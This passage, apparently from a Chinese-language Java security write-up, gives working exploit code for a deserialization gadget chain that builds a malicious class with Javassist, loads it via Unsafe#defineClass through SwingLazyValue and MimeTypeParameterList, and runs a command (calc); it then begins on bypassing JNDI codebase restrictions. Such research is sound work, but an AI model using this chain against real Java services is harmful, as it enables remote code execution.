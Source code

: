 利用`Unsafe`加载字节码，注意`Unsafe#defineClass`不会对类进行初始化，所以需要调用两次，在恶意类里添加一个静态方法，第二次调用之。

```java
public static byte[] getPayload() throws Exception {
    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.makeClass("a");
    CtMethod staticInitializer = CtNewMethod.make("public static void exp() { Runtime.getRuntime().exec(\"calc\"); }", clazz);
    clazz.addMethod(staticInitializer);
    return clazz.toBytecode();
}
public static Object loadClass() throws Exception {
    UIDefaults uiDefaults = new UIDefaults();

    Class<?> clazz = Class.forName("sun.misc.Unsafe");
    Field field = clazz.getDeclaredField("theUnsafe");
    field.setAccessible(true);
    Unsafe unsafe = (Unsafe) field.get(null);

    Method defineClass = clazz.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class, ClassLoader.class, ProtectionDomain.class);
    byte[] bytes = getPayload();
    Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
    SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{defineClass, unsafe, new Object[]{"a", bytes, 0, bytes.length, null, null}}});

    uiDefaults.put("p4d0rn", slz);
    MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
    setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);
    return mimeTypeParameterList;
}

public static Object initClass() throws Exception {
    UIDefaults uiDefaults = new UIDefaults();

    SwingLazyValue slz = new SwingLazyValue("a", "exp", new Object[0]);
    uiDefaults.put("p4d0rn", slz);
    MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
    setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);
    return mimeTypeParameterList;
}
```

## JNDI Breakthrough

高版本的JDK之所以有JNDI限制，是因为`trustURLCodebase`默认为`false`，禁用了RMI、CORBA和LDAP使用远程codebase的选项

* JDK 6u132, JDK 7u122, JDK 8u113后

  `com.sun.jndi.rmi.object.trustURLCodebase = false`
